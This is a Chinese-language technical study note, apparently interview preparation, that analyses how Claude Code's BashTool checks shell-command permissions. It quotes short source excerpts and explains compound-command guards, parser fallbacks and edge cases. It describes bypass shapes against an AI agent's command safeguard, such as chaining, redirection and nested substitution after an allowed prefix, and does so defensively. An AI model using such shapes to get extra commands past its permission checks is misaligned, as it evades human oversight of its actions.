**[Source-confirmed tuple]** `(712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf, src/tools/BashTool/bashPermissions.ts, bashPermissionRule / filterRulesByContentsMatchingInput / bashToolCheckExactMatchPermission)`

```ts
export const bashPermissionRule: (
  permissionRule: string,
) => ShellPermissionRule = parsePermissionRule
```

[`src/tools/BashTool/bashPermissions.ts:364`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashPermissions.ts#L364-L366) 是 mapping entry；[`filterRulesByContentsMatchingInput`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashPermissions.ts#L778-L935) 才分别执行 exact、prefix、wildcard与 compound guard；[`bashToolCheckExactMatchPermission`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashPermissions.ts#L991-L1048) 建立 exact deny→ask→allow→passthrough。

### Lens F：Bash返回 Tool-specific result，Permission仍在外层

**[Source-confirmed tuple]** `(712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf, src/tools/BashTool/BashTool.tsx, BashTool.checkPermissions / BashTool.preparePermissionMatcher)`

```ts
async checkPermissions(input, context): Promise<PermissionResult> {
  return bashToolHasPermission(input, context)
}
```

[`src/tools/BashTool/BashTool.tsx:539`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/BashTool.tsx#L539-L541) 固定 Tool contract。`preparePermissionMatcher` 另用 `parseForSecurity` 为 Hook pattern提取 subcommands，并在 parse unavailable/too-complex时让 Hook fail-safe地运行；它不是 permission branch本身。

## 9. Edge cases 与 trade-offs

| case | implementation choice | trade-off |
| --- | --- | --- |
| parser unavailable | 保留 legacy compatibility path | 可用性较高，但必须继续 legacy misparse/injection checks；不能冒充 native proof |
| parser abort / unsupported node | `too-complex`，仅保留 exact non-passthrough与 deny carve-out，否则 Ask | 会有 false positive，但避免 adversarial input逼 parser降级后产生 unsafe false negative |
| nested `$()` | 只递归 source-supported double-quoted + literal context；bare/path-like shape Ask | 少允许一些可解释命令，换来 path/flag evidence不被 placeholder隐藏 |
| quoting/escaping differential | pre-check known differential，walker用 context-specific unescape | semantic parsing成本更高，但避免 whitespace split与 Bash runtime不同 |
| broad allow rule | allow matching拒绝 compound candidate，且 env/wrapper stripping更严格 | 用户可能需要更具体 rule；防止 `allowed-prefix && extra-effect` |
| output redirection | matcher可临时去掉 redirect，outer path checker仍看原命令/AST redirect | 同时支持 executable rule复用与文件 effect约束 |
| pipeline | multiple-`cd` / cross-segment `cd`+`git` 先 Ask；通过后每个 segment递归完整 permission再聚合；provisional Allow复核原命令 | 多一道 guard与递归分析成本，避免跨 segment安全条件或 redirect被绕过 |
| semantic parse vs naive prefix | 构建 AST、argv、scope、nested evidence | CPU/复杂度上升；换来 operator、quote、path boundary可验证 |
| false positive vs unsafe false negative | unknown/dynamic形状优先 Ask | 牺牲少量自动化流畅度，保留用户显式 exact approval入口 |

这里的保守不是“任何复杂命令都 Deny”。Ask、exact allow carve-out、source-supported nested extraction和 legacy compatibility共同维持可用性；安全目标是让不确定性显式进入 Permission，而不是被 broad prefix静默吞掉。

## 10. 面试回答

### 30 秒版本

> Claude Code 的 Bash 权限检查不是 raw string prefix match。它先在 native、shadow-observational 或 parse-unavailable/legacy 三条 authority路径中得到 security structure，再把 command拆成可独立检查的 leaf commands、pipe segments、nested substitutions与 redirects。每个 component产生 exact/prefix/wildcard rule evidence；pipe先用 multiple-`cd` 或 cross-segment `cd`+`git` guard收口为 Ask，guard通过后才按“任一 deny、全部 allow、否则 ask”局部聚合，且 provisional pipe Allow还要用原始 command复核 redirect/path。parse abort或 unsupported syntax不会自动降级放行，而是保留明确 exact rule carve-out，否则 Ask。Bash只返回 Tool-specific `PermissionResult`，generic Permission决定最终授权，Sandbox处理获准后的 containment；整个分析阶段目标命令都没执行。

### 追问：为什么不能 `command.startsWith("git status")`？

因为 `git status && extra-command`、`git status > file` 和 `git status "$(nested)"` 共享文本前缀，却分别新增 command、file或nested effect。raw command可以提前产生 prefix suggestion，但该 candidate不能授权；真正的 allow matching仍要拒绝 compound bypass，并由后续 Permission route决定。

### 追问：为什么 `getSimpleCommandPrefix` 还能用 whitespace split？

因为它不是 security parser，也不要求 caller必然已传入 isolated component。它可能接收 raw full command或component，只生成“executable + subcommand” suggestion并限制 env与第二 token形状；compound guards、实际 rule matching与 Permission routing才是 authorization边界。

### 追问：aggregation是不是 `deny > ask > allow`？

只在具体 branch里说。pipe helper先以 multiple-`cd` 或 cross-segment `cd`+`git` 提前 Ask；prechecks通过后才是 any deny→deny、all allow→provisional allow、otherwise ask。normal subcommand flow还夹着原始 redirection/path deny/ask、exact allow、legacy injection与 suggestion merge，不能概括成 universal ranking。

### 追问：parse failure为什么不是直接 Deny？

实现要兼容 parser module unavailable，所以保留 legacy analysis；malformed syntax、native abort、unknown dynamic shape等已知不确定点收口为 Ask。这样既不把 infrastructure unavailability等同恶意，也不把 parse failure当 Allow。

## 11. Sandbox Runtime handoff

B1–B6 到此只完成 authorization evidence：哪些 command component、rule、path或 uncertainty让 Bash返回 Allow、Deny、Ask或passthrough。即使最终 Permission选择 Allow，目标 command仍未在本文的分析节点执行。

下一站是 **Sandbox Runtime**：它要回答获准进程怎样被启动、filesystem/network等 containment怎样应用，以及 runtime result怎样返回。那是执行边界，不是 Bash rule matching的延长；Sandbox不能把 Permission Deny改成 Allow，Permission Allow也不证明 sandboxed target effect已经成功。
